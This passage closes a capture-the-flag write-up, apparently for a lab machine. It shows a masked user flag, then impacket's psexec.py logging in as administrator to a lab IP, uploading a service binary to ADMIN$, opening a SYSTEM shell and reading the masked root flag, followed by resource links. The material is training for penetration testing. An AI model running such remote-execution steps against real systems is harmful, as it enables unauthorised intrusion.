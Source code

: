 ```powershell
3e7b****************************c21a3
PS C:\Users\sql_svc\Desktop>
```

## Submit root flag

```bash
➜  psexec.py administrator@10.129.92.164
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

Password:
[*] Requesting shares on 10.129.92.164.....
[*] Found writable share ADMIN$
[*] Uploading file APKjGCXx.exe
[*] Opening SVCManager on 10.129.92.164.....
[*] Creating service jpio on 10.129.92.164.....
[*] Starting service jpio.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd ..\..\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt
b91cc********************b848528
C:\Users\Administrator\Desktop>
```

# Resources

- [powershell-command-history-forensics](https://community.sophos.com/sophos-labs/b/blog/posts/powershell-command-history-forensics)
- [winPEASx64.exe](https://github.com/carlospolop/PEASS-ng/releases/tag/20220214)
